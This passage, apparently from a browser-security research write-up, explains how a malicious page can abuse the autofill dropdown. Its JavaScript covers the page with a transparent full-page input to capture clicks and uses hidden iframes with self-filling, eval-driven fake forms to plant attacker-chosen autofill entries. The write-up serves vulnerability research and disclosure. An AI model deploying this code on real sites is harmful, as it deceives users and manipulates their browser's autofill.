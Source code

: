 Here are the problems with abusing the autofill UI from an attackers
perspective:

1.  Only shows saved entries from a previous form submission.
2.  Disappears when the user interacts with the browser or webpage.
3.  Only appears when user interacts with a form/input element.

We can solve (3) by simply asking the user to click anywhere on our malicious
page. The input element can be transparent and cover the entire
page. This way any click on the page will activate the mechanism which shows the
autofill dropdown UI.

```javascript
qf.style="opacity:1";
qa.style="width:100%;height:1000px;display:block;position:absolute;";
```

For (1) it is surprisingly simple to solve. We just need an iframe with a fake
form that fills itself using Javascript and then executes
`formElement.submit()` to some random URL. So we effectively control what is
displayed in the dropdown autofill suggestion UI.

```javascript
function createAutofillEntry(str) {
    let aframe = document.createElement("iframe");
    aframe.src = "#faker";
    aframe.style = "width:2px;height:3px;opacity:0.1";
    aframe["data-id"] = msgs;
    iframes[msgs] = false;
    msgs += 1;

    document.body.appendChild(aframe);

    aframe.onload = (e) => {
        if (e.target.contentWindow.location.search.length <= 10) {
            e.target.contentWindow.eval(`
          qb.value="pass1223"

          var thing="${str}";

          var i=0;
          var ger=0;
            ger=setInterval(g=>{
            qa.value+=thing[i];
            i++;
            if(thing.length==i){
              window.clearInterval(ger);
              qf.submit()
            }
          },20)
        `);
        } else {
            iframes[e.target["data-id"]] = true;
        }
    };
}
```
